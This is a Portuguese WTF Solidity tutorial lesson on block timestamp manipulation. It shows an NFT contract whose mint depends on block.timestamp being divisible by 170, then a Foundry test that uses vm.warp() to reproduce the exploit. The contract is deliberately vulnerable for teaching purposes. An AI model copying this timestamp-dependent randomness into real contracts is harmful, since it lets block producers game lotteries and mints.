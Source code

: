 ```yaml
---
title: S14. Manipulação do Tempo de Bloco
tags:
- solidity
- segurança
- timestamp
---
```


# WTF Solidity Contratos Seguros: S14. Manipulação do Tempo de Bloco

Recentemente, tenho estudado solidity novamente para revisar os detalhes e escrever um "Guia WTF de Introdução ao Solidity" para iniciantes (programadores experientes podem procurar outros tutoriais). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

Nesta lição, vamos falar sobre o ataque de manipulação do tempo de bloco em contratos inteligentes e reproduzi-lo usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco.

## Tempo de Bloco

O tempo de bloco (block timestamp) é um valor `uint64` incluído no cabeçalho de um bloco Ethereum, representando o timestamp UTC (em segundos) em que o bloco foi criado. Antes do Merge, o Ethereum ajustava a dificuldade dos blocos com base no poder de processamento, o que resultava em tempos de bloco variáveis, com uma média de 14,5 segundos por bloco. Os mineradores podiam manipular o tempo de bloco. Após o Merge, o tempo de bloco foi fixado em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco.

Em Solidity, os desenvolvedores podem obter o timestamp do bloco atual usando a variável global `block.timestamp`, que é do tipo `uint256`.

## Exemplo de Vulnerabilidade

Este exemplo é uma modificação do contrato apresentado em [WTF Solidity Contratos Seguros: S07. Números Aleatórios Ruins](./32_Faucet). Alteramos a condição da função de criação `mint()`: agora, a criação só é bem-sucedida se o timestamp do bloco for divisível por 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Construtor: inicializa o nome e o símbolo da coleção NFT
    constructor() ERC721("", ""){}

    // Função de criação: só é possível criar se o timestamp do bloco for divisível por 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // criação
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduzindo o Ataque com o Foundry

Para reproduzir o ataque, o atacante só precisa manipular o tempo de bloco para um número divisível por 170. Vamos usar o Foundry para isso, pois ele fornece códigos de trapaça para modificar o tempo de bloco. Se você não está familiarizado com o Foundry/códigos de trapaça, pode ler o [tutorial do Foundry](../Topics/Tools/TOOL07_Foundry/readme.md) e o [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

Lógica do código:

1. Criar uma variável de contrato `nft` do tipo `TimeManipulation`.
2. Criar um endereço de carteira `alice`.
3. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 169, o que não é divisível por 170 e resultará em falha na criação.
4. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 17000, o que é divisível por 170 e resultará em sucesso na criação.

Código:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Calcula o endereço para uma chave privada fornecida
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condição 1: block.timestamp % 170 != 0");
        // Define block.timestamp como 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Define o endereço do chamador das chamadas subsequentes como o endereço fornecido
        // até que `stopPrank` seja chamado
        vm.startPrank(alice);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));

        // Define block.timestamp como 17000
        console.log("Condição 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

Após instalar o Foundry, execute o seguinte comando no terminal para iniciar um novo projeto e instalar a biblioteca OpenZeppelin:

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copie o código desta lição para as pastas `src` e `test`, respectivamente. Em seguida, execute o seguinte comando para iniciar os testes:

```shell
forge test -vv --match-test testMint
```

A saída será a seguinte:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condição 1: block.timestamp % 170 != 0
  block.timestamp: 169
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 0
  Condição 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

Podemos ver que a criação é bem-sucedida quando o `block.timestamp` é alterado para 17000.

## Conclusão

Nesta lição, discutimos o ataque de manipulação do tempo de bloco em contratos inteligentes e o reproduzimos usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco. Após o Merge, o Ethereum fixou o tempo de bloco em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco. Portanto, esse tipo de ataque não ocorrerá no Ethereum, mas ainda pode ser encontrado em outras blockchains.

